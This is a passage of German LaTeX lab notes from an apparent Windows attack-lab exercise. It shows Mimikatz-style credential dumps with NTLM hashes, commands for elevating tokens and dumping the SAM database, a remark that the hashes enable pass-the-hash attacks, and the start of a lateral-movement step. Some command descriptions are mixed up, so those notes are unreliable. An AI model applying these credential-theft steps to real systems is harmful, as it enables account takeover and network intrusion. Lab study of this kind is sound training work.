 \begin{lstlisting}[language=bash]
    Authentication Id : 0 ; 6453349 (00000000:00627865)   
    Session           : Interactive from 2
    User Name         : backdoor
    Domain            : Client1
    Logon Server      : Client1
    Logon Time        : 11/12/2021 4:46:23 PM
    SID               : S-1-5-21-1681067654-3552921923-
    1543340101-1005
        msv :
         [00000003] Primary
         * Username : backdoor
         * Domain   : Client1
         * NTLM     : a9fdfa038c4b75ebc76dc855dd74f0da
         * SHA1     : 9400ae28448e1364174dde269b2cc
         e1bca9d7ee8
    [CUT]
\end{lstlisting}

\begin{itemize}
    \item token::elevate - \textbf{Credentials auslesen des lokalen SAM}
    \item lsadump::elevate - \textbf{Permissions elevaten}
    \begin{itemize}
        \item process token: token für user auf mascine
        \item thread token: token für NT Auth/System, Maschine
    \end{itemize}
    \item lsadump::sam - \textbf{SAM Database mit NTLM und so dumpen}
\end{itemize}

\begin{lstlisting}[language=bash]
    Domain : Client1
    SysKey : 2d102d4d76b467c3aa870e40d01a3f55
    Local SID : S-1-5-21-1681067654-3552921923-
    1543340101

    SAMKey : d777e5a8096311cf0c6dd57edebad324

    RID  : 000001f4 (500)
    User : lab_admin
    Hash NTLM: f6e934388fc080ee870bd0637e4992f9
    [CUT]
\end{lstlisting}

Logs anschauen, da ist vieles drin wie username, dmain, credentials, UND NTLM HASHES, die sind am wichtigsten. kann für pass the hash attacken genutzt werden



\subsection{Step 5A: Lateral Movement to FS1 via Domain User}
In den vorangegangenen Übungen konnten wir uns lokale Administratorrechte auf dem Windows 10-Client verschaffen und anschließend alle auf diesem Rechner gespeicherten Anmeldeinformationen auslesen. Die gesammelten Daten enthielten unter anderem den NTLM-Hash des Domänenbenutzers "aalfort", der lokaler Administrator auf dem Rechner FS1.winattacklab.local ist.

